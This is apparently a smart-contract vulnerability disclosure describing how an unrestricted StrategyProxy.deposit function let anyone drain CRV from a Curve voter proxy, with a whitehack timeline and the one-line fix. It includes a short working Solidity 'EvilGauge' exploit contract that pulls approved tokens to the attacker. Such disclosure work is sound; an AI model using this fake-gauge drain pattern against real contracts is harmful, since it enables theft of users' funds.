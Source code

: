 # Vulnerability disclosure 2020-10-10

## Summary

- A vulnerability that puts token balance of Curve Voter Proxy at risk was discovered.
- The only token in its balance was $20k worth of CRV.
- The vulnerability was exploited by the team, all funds are rescued.

## Background

At 07:00 (UTC) Emiliano Bonassi shares a concern that `StrategyProxy.deposit(address gauge, address token)` can be executed by anyone. He explains that by constructing a fake gauge contract, it's possible to force `CurveYCRVVoter` to call `deposit(uint amount)` on it with a token allowance.

The concern is initially dismissed as funds should never end up in the proxy. Emiliano follows up with the info that there is in fact 34,352 CRV sitting in the Voter Proxy.

A few moments later Artem writes a proof of concept exploit contract, and confirms the vulnerability in forked mainnet.

The team decides to whitehack the contract to not put funds at risk. Artem exploits the contract and sends the recovered funds to multisig.

## Details of vulnerability

An `EvilGauge` contract which mimics Curve Gauge can be constructed. An attacker calls `StrategyProxy.deposit(EvilGauge, Token)`, which calls and then calls `CurveYCRVVoter.execute` with the following actions:
- `Token.approve(EvilGauge, Token.balanceOf(CurveYCRVVoter))` 
- `EvilGauge.deposit(Token.balanceOf(CurveYCRVVoter))`

Since `EvilGauge` has allowance from `CurveYCRVVoter`, it can `Token.transferFrom` that amount of funds for its benefit.

## Exploit contract

```
pragma solidity =0.5.17;

import "@openzeppelinV2/contracts/token/ERC20/IERC20.sol";

contract EvilGauge {

    IERC20 token;
    address owner;

    constructor(address _token) public {
        owner = msg.sender;
        token = IERC20(_token);
    }

    function deposit(uint amount) public {
        token.transferFrom(msg.sender, owner, amount);
    }
}
```

## Details of fix

`StrategyProxy.deposit(address,address)` must only be callable by approved Strategies:
```
require(strategies[msg.sender], "!strategy");
```

## Timeline of events

- **Oct 10, 2020, 11:00 UTC** Emiliano raises the concern in YFI Secret Admirers chat.
- **12:53** Emiliano reaches out to Artem with more details, Artem writes the exploit.
- **13:09** Exploit is confirmed to steal funds in forked mainnet.
- **13:15** Exploit deployed on mainnet and the contract is whitehacked. The funds are sent to yearn multisig.

## Links

- Whitehack [transaction](https://ethtx.info/mainnet/0x8302d3481d2b4eb6b5ba7d6b467e3ce8cd3450dac3c8857aac7964bd54ed507a)
